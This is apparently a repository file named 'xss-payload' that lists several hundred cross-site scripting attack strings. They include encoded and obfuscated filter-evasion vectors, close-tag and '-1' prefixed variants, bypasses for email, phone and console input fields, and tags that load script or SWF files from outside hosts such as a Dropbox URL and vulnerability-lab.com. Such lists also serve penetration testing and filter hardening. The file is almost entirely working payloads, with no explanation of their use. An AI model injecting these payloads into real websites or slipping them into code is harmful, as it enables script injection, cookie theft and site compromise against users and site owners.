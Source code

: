 # xss-payload


<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
<svg><style>{font-family&colon;'<iframe/onload=confirm(1)>'
<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"
<sVg><scRipt %00>alert&lpar;1&rpar; {Opera}
<img/src=`%00` onerror=this.onerror=confirm(1)
<form><isindex formaction="javascript&colon;confirm(1)"
<img src=`%00`&NewLine; onerror=alert(1)&NewLine;
<script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
<iframe/src="data:text/html;&Tab;base64&Tab;,PGJvZHkgb25sb2FkPWFsZXJ0KDEpPg==">
<script /*%00*/>/*%00*/alert(1)/*%00*/</script /*%00*/
&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00
<iframe/src="data:text/html,<svg &#111;&#110;load=alert(1)>">
<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>
<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script
<svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">
<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<form><iframe &#09;&#10;&#11; src="javascript&#58;alert(1)"&#11;&#10;&#09;;>
<a href="data:application/x-x509-user-cert;&NewLine;base64&NewLine;,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="&#09;&#10;&#11;>X</a
http://www.google<script .com>alert(document.location)</script
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<script ^__^>alert(String.fromCharCode(49))</script ^__^
</style &#32;><script &#32; :-(>/**/alert(document.location)/**/</script &#32; :-(
&#00;</form><input type&#61;"date" onfocus="alert(1)">
<form><textarea &#13; onkeyup='\u0061\u006C\u0065\u0072\u0074&#x28;1&#x29;'>
<script /***/>/***/confirm('\uFF41\uFF4C\uFF45\uFF52\uFF54\u1455\uFF11\u1450')/***/</script /***/
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<a href="javascript:void(0)" onmouseover=&NewLine;javascript:alert(1)&NewLine;>X</a>
<script ~~~>alert(0%0)</script ~~~>
<style/onload=&lt;!--&#09;&gt;&#10;alert&#10;&lpar;1&rpar;>
<///style///><span %2F onmousemove='alert&lpar;1&rpar;'>SPAN
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
&#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'
&#13;<blink/&#13; onmouseover=pr&#x6F;mp&#116;(1)>OnMouseOver {Firefox & Opera}
<marquee onstart='javascript:alert&#x28;1&#x29;'>^__^
<div/style="width:expression(confirm(1))">X</div> {IE7}
<iframe/%00/ src=javaSCRIPT&colon;alert(1)
//<form/action=javascript&#x3A;alert&lpar;document&period;cookie&rpar;><input/type='submit'>//
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
//|\\ <script //|\\ src='https://dl.dropbox.com/u/13018058/js.js'> //|\\ </script //|\\
</font>/<svg><style>{src&#x3A;'<style/onload=this.onload=confirm(1)>'</font>/</style>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
</svg>''<svg><script 'AQuickBrownFoxJumpsOverTheLazyDog'>alert&#x28;1&#x29; {Opera}
<a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
<div onmouseover='alert&lpar;1&rpar;'>DIV</div>
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<a href="jAvAsCrIpT&colon;alert&lpar;1&rpar;">X</a>
<embed src="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
<object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">
<var onmouseover="prompt(1)">On Mouse Over</var>
<a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
<img src="/" =_=" title="onerror='prompt(1)'">
<%<!--'%><script>alert(1);</script -->
<script src="data:text/javascript,alert(1)"></script>
<iframe/src \/\/onload = prompt(1)
<iframe/onreadystatechange=alert(1)
<svg/onload=alert(1)
<input value=<><iframe/src=javascript:confirm(1)
<input type="text" value=`` <div/onmouseover='alert(1)'>X</div>
http://www.<script>alert(1)</script .com
<iframe src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe>
<svg><script ?>alert(1)
<iframe src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
<img src=`xx:xx`onerror=alert(1)>
<meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>
<math><a xlink:href="//jsfiddle.net/t846h/">click
<embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>
<svg contentScriptType=text/vbs><script>MsgBox+1
<a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
<iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
<script>~'\u0061' ; \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073. \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
<script/src="data&colon;text%2Fj\u0061v\u0061script,\u0061lert('\u0061')"></script a=\u0061 & /=%2F
<script/src=data&colon;text/j\u0061v\u0061&#115&#99&#114&#105&#112&#116,\u0061%6C%65%72%74(/XSS/)></script
<object data=javascript&colon;\u0061&#x6C;&#101%72t(1)>
<script>+-+-1-+-+alert(1)</script>
<body/onload=&lt;!--&gt;&#10alert(1)>
<script itworksinallbrowsers>/*<script* */alert(1)</script
<img src ?itworksonchrome?\/onerror = alert(1)
<svg><script>//&NewLine;confirm(1);</script </svg>
<svg><script onlypossibleinopera:-)> alert(1)
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script&#x3A;&#97lert(1)>ClickMe
<script x> alert(1) </script 1=2
<div/onmouseover='alert(1)'> style="x:">
<--`<img/src=` onerror=alert(1)> --!>
<script/src=&#100&#97&#116&#97:text/&#x6a&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x000070&#x074,&#x0061;&#x06c;&#x0065;&#x00000072;&#x00074;(1)></script>
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>
"><img src=x onerror=window.open('https://www.google.com/');>
<form><button formaction=javascript&colon;alert(1)>CLICKME
<math><a xlink:href="//jsfiddle.net/t846h/">click
<object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
<a href="data:text/html;blabla,&#60&#115&#99&#114&#105&#112&#116&#32&#115&#114&#99&#61&#34&#104&#116&#116&#112&#58&#47&#47&#115&#116&#101&#114&#110&#101&#102&#97&#109&#105&#108&#121&#46&#110&#101&#116&#47&#102&#111&#111&#46&#106&#115&#34&#62&#60&#47&#115&#99&#114&#105&#112&#116&#62&#8203">Click Me</a>
<meta http-equiv="refresh" content="0;url=javascript:document.cookie=true;">
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>document.cookie=true</SCRIPT>">
<SCRIPT>document.cookie=true;</SCRIPT>
<IMG SRC="jav ascript:document.cookie=true;">
<IMG SRC="javascript:document.cookie=true;">
<IMG SRC="  javascript:document.cookie=true;">
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=document.cookie=true;>
<SCRIPT>document.cookie=true;//<</SCRIPT>
<SCRIPT <B>document.cookie=true;</SCRIPT>
<IMG SRC="javascript:document.cookie=true;">
<iframe src="javascript:document.cookie=true;> 
<SCRIPT>a=/CrossSiteScripting/\ndocument.cookie=true;</SCRIPT> 
</TITLE><SCRIPT>document.cookie=true;</SCRIPT>
<INPUT TYPE="IMAGE" SRC="javascript:document.cookie=true;">
<BODY BACKGROUND="javascript:document.cookie=true;">
<BODY ONLOAD=document.cookie=true;>
<IMG DYNSRC="javascript:document.cookie=true;">
<IMG LOWSRC="javascript:document.cookie=true;">
<BGSOUND SRC="javascript:document.cookie=true;">
<BR SIZE="&{document.cookie=true}">
<LAYER SRC="javascript:document.cookie=true;"></LAYER>
<LINK REL="stylesheet" HREF="javascript:document.cookie=true;">
<STYLE>li {list-style-image: url("javascript:document.cookie=true;");</STYLE><UL><LI>CrossSiteScripting 
¼script¾document.cookie=true;¼/script¾ 
<IFRAME SRC="javascript:document.cookie=true;"></IFRAME>
<FRAMESET><FRAME SRC="javascript:document.cookie=true;"></FRAMESET>
<TABLE BACKGROUND="javascript:document.cookie=true;">
<TABLE><TD BACKGROUND="javascript:document.cookie=true;">
<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
<DIV STYLE="width: expression(document.cookie=true);">
<STYLE>@im\port'\ja\vasc\ript:document.cookie=true';</STYLE>
<IMG STYLE="CrossSiteScripting:expr/*CrossSiteScripting*/ession(document.cookie=true)">
<CrossSiteScripting STYLE="CrossSiteScripting:expression(document.cookie=true)"> 
exp/*<A STYLE='no\CrossSiteScripting:noCrossSiteScripting("*//*");CrossSiteScripting:ex/*CrossSiteScripting*//*/*/pression(document.cookie=true)'> 
<STYLE TYPE="text/javascript">document.cookie=true;</STYLE> 
<STYLE>.CrossSiteScripting{background-image:url("javascript:document.cookie=true");}</STYLE><A CLASS=CrossSiteScripting></A> 
<STYLE type="text/css">BODY{background:url("javascript:document.cookie=true")}</STYLE> 
<SCRIPT>document.cookie=true;</SCRIPT>
<BASE HREF="javascript:document.cookie=true;//">
<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:document.cookie=true></OBJECT>
<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
<XML ID="CrossSiteScripting"><I><B><IMG SRC="javas<!-- -->cript:document.cookie=true"></B></I></XML><SPAN DATASRC="#CrossSiteScripting" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="CrossSiteScripting<SCRIPT DEFER>document.cookie=true</SCRIPT>"></BODY></HTML>
<? echo('<SCR)';echo('IPT>document.cookie=true</SCRIPT>'); ?>
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-document.cookie=true;+ADw-/SCRIPT+AD4-
<a href="javascript#document.cookie=true;">
<div onmouseover="document.cookie=true;">
<img src="javascript:document.cookie=true;">
<img dynsrc="javascript:document.cookie=true;">
<input type="image" dynsrc="javascript:document.cookie=true;">
<bgsound src="javascript:document.cookie=true;">
&<script>document.cookie=true;</script> 
&{document.cookie=true;}; 
<img src=&{document.cookie=true;};> 
<link rel="stylesheet" href="javascript:document.cookie=true;"> 
<img src="mocha:document.cookie=true;"> 
<img src="livescript:document.cookie=true;"> 
<a href="about:<script>document.cookie=true;</script>"> 
<body onload="document.cookie=true;"> 
<div style="background-image: url(javascript:document.cookie=true;);"> 
<div style="behaviour: url([link to code]);"> 
<div style="binding: url([link to code]);"> 
<div style="width: expression(document.cookie=true;);">
<style type="text/javascript">document.cookie=true;</style>
<object classid="clsid:..." codebase="javascript:document.cookie=true;">
<style><!--</style><script>document.cookie=true;//--></script>
<<script>document.cookie=true;</script>
<script>document.cookie=true;//--></script>
<!-- -- --><script>document.cookie=true;</script><!-- -- -->
<img src="blah"onmouseover="document.cookie=true;">
<img src="blah>" onmouseover="document.cookie=true;">
<xml src="javascript:document.cookie=true;">
<xml id="X"><a><b><script>document.cookie=true;</script>;</b></a></xml>
<div datafld="b" dataformatas="html" datasrc="#X"></div> ]]>  [\xC0][\xBC]script>document.cookie=true;[\xC0][\xBC]/script>

Cross Site Scripting Strings with close TAG:
>"<meta http-equiv="refresh" content="0;url=javascript:document.cookie=true;">
>"<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>document.cookie=true</SCRIPT>">
>"<SCRIPT>document.cookie=true;</SCRIPT>
>"<IMG SRC="jav ascript:document.cookie=true;">
>"<IMG SRC="javascript:document.cookie=true;">
>"<IMG SRC="  javascript:document.cookie=true;">
>"<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=document.cookie=true;>
>"<SCRIPT>document.cookie=true;//<</SCRIPT>
>"<SCRIPT <B>document.cookie=true;</SCRIPT>
>"<IMG SRC="javascript:document.cookie=true;">
>"<iframe src="javascript:document.cookie=true;> 
>"<SCRIPT>a=/CrossSiteScripting/\ndocument.cookie=true;</SCRIPT> 
>"</TITLE><SCRIPT>document.cookie=true;</SCRIPT>
>"<INPUT TYPE="IMAGE" SRC="javascript:document.cookie=true;">
>"<BODY BACKGROUND="javascript:document.cookie=true;">
>"<BODY ONLOAD=document.cookie=true;>
>"<IMG DYNSRC="javascript:document.cookie=true;">
>"<IMG LOWSRC="javascript:document.cookie=true;">
>"<BGSOUND SRC="javascript:document.cookie=true;">
>"<BR SIZE="&{document.cookie=true}">
>"<LAYER SRC="javascript:document.cookie=true;"></LAYER>
>"<LINK REL="stylesheet" HREF="javascript:document.cookie=true;">
>"<STYLE>li {list-style-image: url("javascript:document.cookie=true;");</STYLE><UL><LI>CrossSiteScripting 
>"¼script¾document.cookie=true;¼/script¾ 
>"<IFRAME SRC="javascript:document.cookie=true;"></IFRAME>
>"<FRAMESET><FRAME SRC="javascript:document.cookie=true;"></FRAMESET>
>"<TABLE BACKGROUND="javascript:document.cookie=true;">
>"<TABLE><TD BACKGROUND="javascript:document.cookie=true;">
>"<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
>"<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
>"<DIV STYLE="width: expression(document.cookie=true);">
>"<STYLE>@im\port'\ja\vasc\ript:document.cookie=true';</STYLE>
>"<IMG STYLE="CrossSiteScripting:expr/*CrossSiteScripting*/ession(document.cookie=true)">
>"<CrossSiteScripting STYLE="CrossSiteScripting:expression(document.cookie=true)"> 
>"exp/*<A STYLE='no\CrossSiteScripting:noCrossSiteScripting("*//*");CrossSiteScripting:ex/*CrossSiteScripting*//*/*/pression(document.cookie=true)'> 
>"<STYLE TYPE="text/javascript">document.cookie=true;</STYLE> 
>"<STYLE>.CrossSiteScripting{background-image:url("javascript:document.cookie=true");}</STYLE><A CLASS=CrossSiteScripting></A> 
>"<STYLE type="text/css">BODY{background:url("javascript:document.cookie=true")}</STYLE> 
>"<SCRIPT>document.cookie=true;</SCRIPT>
>"<BASE HREF="javascript:document.cookie=true;//">
>"<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:document.cookie=true></OBJECT>
>"<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
>"<XML ID="CrossSiteScripting"><I><B><IMG SRC="javas<!-- -->cript:document.cookie=true"></B></I></XML><SPAN DATASRC="#CrossSiteScripting" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
>"<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="CrossSiteScripting<SCRIPT DEFER>document.cookie=true</SCRIPT>"></BODY></HTML>
>"<? echo('<SCR)';echo('IPT>document.cookie=true</SCRIPT>'); ?>
>"<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-document.cookie=true;+ADw-/SCRIPT+AD4-
>"<a href="javascript#document.cookie=true;">
>"<div onmouseover="document.cookie=true;">
>"<img src="javascript:document.cookie=true;">
>"<img dynsrc="javascript:document.cookie=true;">
>"<input type="image" dynsrc="javascript:document.cookie=true;">
>"<bgsound src="javascript:document.cookie=true;">
>"&<script>document.cookie=true;</script> 
>"&{document.cookie=true;}; 
>"<img src=&{document.cookie=true;};> 
>"<link rel="stylesheet" href="javascript:document.cookie=true;"> 
>"<img src="mocha:document.cookie=true;"> 
>"<img src="livescript:document.cookie=true;"> 
>"<a href="about:<script>document.cookie=true;</script>"> 
>"<body onload="document.cookie=true;"> 
>"<div style="background-image: url(javascript:document.cookie=true;);"> 
>"<div style="behaviour: url([link to code]);"> 
>"<div style="binding: url([link to code]);"> 
>"<div style="width: expression(document.cookie=true;);">
>"<style type="text/javascript">document.cookie=true;</style>
>"<object classid="clsid:..." codebase="javascript:document.cookie=true;">
>"<style><!--</style><script>document.cookie=true;//--></script>
>"<<script>document.cookie=true;</script>
>"<script>document.cookie=true;//--></script>
>"<!-- -- --><script>document.cookie=true;</script><!-- -- -->
>"<img src="blah"onmouseover="document.cookie=true;">
>"<img src="blah>" onmouseover="document.cookie=true;">
>"<xml src="javascript:document.cookie=true;">
>"<xml id="X"><a><b><script>document.cookie=true;</script>;</b></a></xml>
>"<div datafld="b" dataformatas="html" datasrc="#X"></div> ]]>  [\xC0][\xBC]script>document.cookie=true;[\xC0][\xBC]/script>

Cross Site Scripting Strings with negative value & TAG:
-1<meta http-equiv="refresh" content="0;url=javascript:document.cookie=true;">
-1<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>document.cookie=true</SCRIPT>">
-1<SCRIPT>document.cookie=true;</SCRIPT>
-1<IMG SRC="jav ascript:document.cookie=true;">
-1<IMG SRC="javascript:document.cookie=true;">
-1<IMG SRC="  javascript:document.cookie=true;">
-1<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=document.cookie=true;>
-1<SCRIPT>document.cookie=true;//<</SCRIPT>
-1<SCRIPT <B>document.cookie=true;</SCRIPT>
-1<IMG SRC="javascript:document.cookie=true;">
-1<iframe src="javascript:document.cookie=true;> 
-1<SCRIPT>a=/CrossSiteScripting/\ndocument.cookie=true;</SCRIPT> 
-1</TITLE><SCRIPT>document.cookie=true;</SCRIPT>
-1<INPUT TYPE="IMAGE" SRC="javascript:document.cookie=true;">
-1<BODY BACKGROUND="javascript:document.cookie=true;">
-1<BODY ONLOAD=document.cookie=true;>
-1<IMG DYNSRC="javascript:document.cookie=true;">
-1<IMG LOWSRC="javascript:document.cookie=true;">
-1<BGSOUND SRC="javascript:document.cookie=true;">
-1<BR SIZE="&{document.cookie=true}">
-1<LAYER SRC="javascript:document.cookie=true;"></LAYER>
-1<LINK REL="stylesheet" HREF="javascript:document.cookie=true;">
-1<STYLE>li {list-style-image: url("javascript:document.cookie=true;");</STYLE><UL><LI>CrossSiteScripting 
-1¼script¾document.cookie=true;¼/script¾ 
-1<IFRAME SRC="javascript:document.cookie=true;"></IFRAME>
-1<FRAMESET><FRAME SRC="javascript:document.cookie=true;"></FRAMESET>
-1<TABLE BACKGROUND="javascript:document.cookie=true;">
-1<TABLE><TD BACKGROUND="javascript:document.cookie=true;">
-1<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
-1<DIV STYLE="background-image: url(javascript:document.cookie=true;)">
-1<DIV STYLE="width: expression(document.cookie=true);">
-1<STYLE>@im\port'\ja\vasc\ript:document.cookie=true';</STYLE>
-1<IMG STYLE="CrossSiteScripting:expr/*CrossSiteScripting*/ession(document.cookie=true)">
-1<CrossSiteScripting STYLE="CrossSiteScripting:expression(document.cookie=true)"> 
-1exp/*<A STYLE='no\CrossSiteScripting:noCrossSiteScripting("*//*");CrossSiteScripting:ex/*CrossSiteScripting*//*/*/pression(document.cookie=true)'> 
-1<STYLE TYPE="text/javascript">document.cookie=true;</STYLE> 
-1<STYLE>.CrossSiteScripting{background-image:url("javascript:document.cookie=true");}</STYLE><A CLASS=CrossSiteScripting></A> 
-1<STYLE type="text/css">BODY{background:url("javascript:document.cookie=true")}</STYLE> 
-1<SCRIPT>document.cookie=true;</SCRIPT>
-1<BASE HREF="javascript:document.cookie=true;//">
-1<OBJECT classid=clsid:ae24fdae-03c6-11d1-8b76-0080c744f389><param name=url value=javascript:document.cookie=true></OBJECT>
-1<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]<![CDATA[cript:document.cookie=true;">]]</C></X></xml><SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>
-1<XML ID="CrossSiteScripting"><I><B><IMG SRC="javas<!-- -->cript:document.cookie=true"></B></I></XML><SPAN DATASRC="#CrossSiteScripting" DATAFLD="B" DATAFORMATAS="HTML"></SPAN>
-1<HTML><BODY><?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time"><?import namespace="t" implementation="#default#time2"><t:set attributeName="innerHTML" to="CrossSiteScripting<SCRIPT DEFER>document.cookie=true</SCRIPT>"></BODY></HTML>
-1<? echo('<SCR)';echo('IPT>document.cookie=true</SCRIPT>'); ?>
-1<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-document.cookie=true;+ADw-/SCRIPT+AD4-
-1<a href="javascript#document.cookie=true;">
-1<div onmouseover="document.cookie=true;">
-1<img src="javascript:document.cookie=true;">
-1<img dynsrc="javascript:document.cookie=true;">
-1<input type="image" dynsrc="javascript:document.cookie=true;">
-1<bgsound src="javascript:document.cookie=true;">
-1&<script>document.cookie=true;</script> 
-1&{document.cookie=true;}; 
-1<img src=&{document.cookie=true;};> 
-1<link rel="stylesheet" href="javascript:document.cookie=true;"> 
-1<img src="mocha:document.cookie=true;"> 
-1<img src="livescript:document.cookie=true;"> 
-1<a href="about:<script>document.cookie=true;</script>"> 
-1<body onload="document.cookie=true;"> 
-1<div style="background-image: url(javascript:document.cookie=true;);"> 
-1<div style="behaviour: url([link to code]);"> 
-1<div style="binding: url([link to code]);"> 
-1<div style="width: expression(document.cookie=true;);">
-1<style type="text/javascript">document.cookie=true;</style>
-1<object classid="clsid:..." codebase="javascript:document.cookie=true;">
-1<style><!--</style><script>document.cookie=true;//--></script>
-1<<script>document.cookie=true;</script>
-1<script>document.cookie=true;//--></script>
-1<!-- -- --><script>document.cookie=true;</script><!-- -- -->
-1<img src="blah"onmouseover="document.cookie=true;">
-1<img src="blah>" onmouseover="document.cookie=true;">
-1<xml src="javascript:document.cookie=true;">
-1<xml id="X"><a><b><script>document.cookie=true;</script>;</b></a></xml>
-1<div datafld="b" dataformatas="html" datasrc="#X"></div> ]]>  [\xC0][\xBC]script>document.cookie=true;[\xC0][\xBC]/script>

Cross Site Scripting Strings Restriction Bypass Mail:
>"<iframe src=http://vulnerability-lab.com/>@gmail.com
>"<script>alert(document.cookie)</script><div style="1@gmail.com
>"<script>alert(document.cookie)</script>@gmail.com
<iframe src=http://vulnerability-lab.com/>@gmail.com
<script>alert(document.cookie)</script><div style="1@gmail.com
<script>alert(document.cookie)</script>@gmail.com

Cross Site Scripting Strings Restriction Bypass Phone:
+49/>"<iframe src=http://vulnerability-lab.com>1337
"><iframe src='' onload=alert('mphone')>
<iframe src=http://vulnerability-lab.com>1337+1

Cross Site Scripting Strings Restriction Bypass Obfuscation
>“<ScriPt>ALeRt("VlAb")</scriPt>
>"<IfRaMe sRc=hTtp://vulnerability-lab.com></IfRaMe> 

Cross Site Scripting Strings Restriction Bypass String to Charcode
<html><body>
<button.onclick="alert(String.fromCharCode(60,115,99,114,105,112,116,62,97,108,
101,114,116,40,34,67,114,111,115,115,83,105,116,101,83,99,114,105,112,116,105,1
10,103,64,82,69,77,79,86,69,34,41,60,47,115,99,114,105,112,116,62));">String:fr
om.Char.Code</button></body></html>

';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(67, 114, 111, 115, 115, 83, 105, 116, 101, 83, 99, 114, 105, 112, 116, 105, 110, 103))//\";alert(String.fromCharCode(67, 114, 111, 115, 115, 83, 105, 116, 101, 83, 99, 114, 105, 112, 116, 105, 110, 103))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(67, 114, 111, 115, 115, 83, 105, 116, 101, 83, 99, 114, 105, 112, 116, 105, 110, 103))</SCRIPT>
'';!--"<CrossSiteScripting>=&{()}

Cross Site Scripting Strings Restriction Bypass encoded frame url
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%43%72%6F
%73%73%53%69%74%65%53%63%72%69%70%74%69%6E%67%32%22%29%3C%2F
%73%63%72%69%70%74%3E

Cross Site Scripting Strings via Console:
set vlan name 1337 <script>alert(document.cookie)</script>
set system name <iframe src=http://www.vulnerability-lab.com>
set system location "><iframe src=a onload=alert("VL") <
set system contact <script>alert('VL')</script>
insert <script>alert(document.cookie)</script>
add <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://vulnerability-lab.com/CrossSiteScripting.js></SCRIPT>'"-->
add user <script>alert(document.cookie)</script> <script>alert(document.cookie)</script>@gmail.com
add topic <iframe src=http://www.vulnerability-lab.com>
add name <script>alert('VL')</script>
perl -e 'print "<IMG SRC=java\0script:alert(\"CrossSiteScripting\")>";' > out
perl -e 'print "<SCR\0IPT>alert(\"CrossSiteScripting\")</SCR\0IPT>";' > out
<!--[if gte IE 4]>   <SCRIPT>alert('CrossSiteScripting');</SCRIPT>   <![endif]-->


Cross Site Scripting Strings  on per line validation applications:
<IMG
SRC
=
"
j
a
v
a
s
c
r
i
p
t
:
a
l
e
r
t
(
'
V
L
A
B
'
)
"
>

Cross Site Scripting Strings Embed:
<EMBED SRC="http://vulnerability-lab.com/CrossSiteScripting.swf" AllowScriptAccess="always"></EMBED>
<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>
